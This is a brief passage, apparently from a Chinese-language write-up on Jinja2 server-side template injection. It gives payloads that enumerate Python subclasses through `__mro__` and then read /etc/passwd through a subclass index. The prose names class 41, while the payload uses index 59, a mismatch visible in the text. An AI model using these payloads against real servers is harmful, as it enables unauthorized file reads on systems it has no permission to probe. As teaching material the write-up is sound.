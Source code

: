 ![6-3.png](6-3.png)

```python
{{''.__class__.__mro__[2].__subclasses__()}}
```

![6-4.png](6-4.png)

其中能看到 `file` 类是第 41 个, 读一个文件试试:

```python
{{''.__class__.__mro__[2].__subclasses__()[59]('/etc/passwd').read()}}
```

![6-5.png](6-5.png)
